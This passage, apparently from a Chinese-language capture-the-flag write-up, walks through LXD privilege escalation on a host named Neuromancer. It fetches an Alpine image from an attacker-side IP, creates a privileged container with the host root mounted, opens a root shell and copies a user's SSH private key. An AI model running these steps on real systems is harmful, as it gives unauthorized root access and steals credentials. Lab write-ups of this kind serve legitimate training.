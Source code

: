 因为前面已经socat端口转发：
wget http://172.16.3.6:5555/alpine-v3.13-x86_64-20210218_0139.tar.gz

1）要导入容器映像，使用以下命令：引用容器image（fingerprint指纹导入）
lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias haxor
lxc image list   ---查看
+-------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| ALIAS | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+-------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| haxor | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Mar 6, 2022 at 7:57am (UTC) |
+-------+--------------+--------+-------------------------------+--------+--------+-----------------------------+


2）基于导入的容器映像创建一个实际的容器：
lxc init haxor -c security.privileged=true    --- -c可以提供容器所有功能
lxc list
+-----------------+---------+------+------+------------+-----------+
|      NAME       |  STATE  | IPV4 | IPV6 |    TYPE    | SNAPSHOTS |
+-----------------+---------+------+------+------------+-----------+
| innocent-octopu | STOPPED |      |      | PERSISTENT | 0         |
+-----------------+---------+------+------+------------+-----------+
容器名称是自动分配的！
需要为新容器innocent-octopus指定磁盘安装选项：

lxc config device add innocent-octopus whatever disk source=/ path=/mnt/root recursive=true
---装载主机文件系统的根目录/ ，并装载命名为：whatever到/mnt/root目录下，现在可以启动容器，然后使用以下命令进入bash会话！
启动容器：
lxc start innocent-octopus   ---创建容器：outgoing-osprey（名称）
lxc list
+-----------------+---------+------+------+------------+-----------+
|      NAME       |  STATE  | IPV4 | IPV6 |    TYPE    | SNAPSHOTS |
+-----------------+---------+------+------+------------+-----------+
| outgoing-osprey | RUNNING |      |      | PERSISTENT | 0         |
+-----------------+---------+------+------+------------+-----------+


进入bash提权：
lxc exec innocent-octopus --mode=interactive /bin/sh
成功拥有root权限！！

这时候对Neuromancer文件系统具有根目录访问权限：
cd /mnt/root
cd /root    ---可以轻松进入root目录，测试可以写入文件以及查看flag
cp authorized_keys进入即可！

将前面在ta用户下生成的rsa密钥给复制过来：
cd .ssh        ---在lxd容器的root权限下进行
cp /mnt/root/home/ta/.ssh/authorized_keys authorized_keys
cp /mnt/root/home/ta/.ssh/id_rsa id_rsa
cp /mnt/root/home/ta/.ssh/id_rsa.pub id_rsa.pub
